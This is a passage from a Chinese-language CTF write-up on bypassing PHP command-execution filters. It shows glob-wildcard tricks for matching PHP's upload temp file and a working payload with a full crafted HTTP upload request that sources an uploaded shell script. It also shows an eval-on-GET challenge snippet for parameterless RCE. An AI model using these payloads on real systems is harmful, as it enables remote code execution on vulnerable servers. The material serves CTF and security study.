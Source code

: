 其中，glob支持用`[^x]`的方法来构造“这个位置不是字符x”。那么，我们用这个姿势干掉`/bin/run-parts`，以及带`.`的两个。

```php
/???/???[^-][^.][^.]?[^.]?
```

现在就剩最后三个文件了。但我们要执行的文件仍然排在最后，但我发现这三个文件名中都不包含特殊字符，那么这个方法似乎行不通了

继续研究通配符，跟正则表达式类似，glob支持利用`[0-9]`来表示一个范围。

所有文件名都是小写，只有PHP生成的临时文件包含大写字母。那么答案就呼之欲出了，我们只要找到一个可以表示“大写字母”的glob通配符，就能精准找到我们要执行的文件。

翻开**ascii码表**，可见大写字母位于`@`与`[`之间，那么，我们可以利用`[@-[]`来表示大写字母：

上面的几种过滤也不需要了，我们只有这一个文件是最后以大写字母结尾的，临时文件的生成是随机的，多试几次就可以得到最后一个字母是大写的文件了。

```php
/???/????????[@-[]
```

综合一下，我们的payload就职这样的

```php
?><?= `. /???/????????[@-[]`?>
```

上传表单我们可以通过抓包后进行修改得到，payload

```php
POST /?shell=?><?=`.+/%3f%3f%3f/%3f%3f%3f%3f%3f%3f%3f%3f[%3f-[]`%3b?>  HTTP/1.1
Host: xxx.xxx.xxx.xxx:xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type:multipart/form-data;boundary=--------123
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 109

----------123
Content-Disposition:form-data;name="file";filename="1.txt"

#!/bin/sh
ls /
----------123--
```

### 无参数RCE

这里有道例题，就是\[GXYCTF2019\]禁止套娃

```php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) { 
eval($_GET['code']);
}
preg_replace('/[a-z]+\((?R)?\)/', NULL, $code)
pre_match('/et|na|nt|strlen|info|path||rand|dec|bin|hex|oct|pi|exp|log/i', $code))
```
